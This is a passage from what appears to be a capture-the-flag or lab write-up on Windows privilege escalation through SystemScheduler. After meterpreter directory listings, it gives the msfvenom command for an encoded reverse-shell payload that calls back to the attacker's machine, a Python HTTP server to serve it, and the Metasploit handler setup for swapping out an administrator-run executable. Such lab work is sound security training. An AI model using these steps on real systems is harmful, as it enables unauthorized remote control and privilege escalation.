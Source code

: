 ```text
100666/rw-rw-rw-  6999     fil   2019-08-04 12:36:42 +0100  unins000.dat
100777/rwxrwxrwx  722597   fil   2019-08-04 12:36:32 +0100  unins000.exe
100666/rw-rw-rw-  6574     fil   2009-06-27 01:27:32 +0100  whiteclock.ico
```

Events:

```text
meterpreter > cd events
meterpreter > ls
Listing: c:\program files (x86)\SystemScheduler\events
======================================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100666/rw-rw-rw-  1926   fil   2022-09-30 19:50:01 +0100  20198415519.INI
100666/rw-rw-rw-  26066  fil   2022-09-30 19:50:01 +0100  20198415519.INI_LOG.txt
100666/rw-rw-rw-  290    fil   2020-10-02 22:50:12 +0100  2020102145012.INI
100666/rw-rw-rw-  186    fil   2022-09-30 19:40:50 +0100  Administrator.flg
100666/rw-rw-rw-  182    fil   2022-09-30 19:40:48 +0100  SYSTEM_svc.flg
100666/rw-rw-rw-  0      fil   2022-09-30 18:49:25 +0100  Scheduler.flg
100666/rw-rw-rw-  449    fil   2022-09-30 19:40:50 +0100  SessionInfo.flg
100666/rw-rw-rw-  57     fil   2022-09-30 19:50:32 +0100  Update.flg
100666/rw-rw-rw-  0      fil   2022-09-30 19:41:10 +0100  service.flg

meterpreter >
```

We have an executable called `Message.exe` being executed (every 30 minutes) by administrator in a directory that has 
Everyone `WriteData/CreateFiles` permissions. Replace `C:\Program Files (x86)\SystemScheduler\Message.exe` with a reverse shell.

Create the payload:

```text
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=<IP address attack machine> LPORT=6666 -f exe -o Message.exe
```

In the directory with the exploit, start a http server:

    # python3 -m http.server 8080

In Metasploit, set up a multi-handler:

```text
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST <IP address attack machine>
msf6 exploit(multi/handler) > set LPORT 6666
msf6 exploit(multi/handler) > run
```

In the existing reverse shell terminal, download the new reverse shell and replace the existing `Message.exe`:
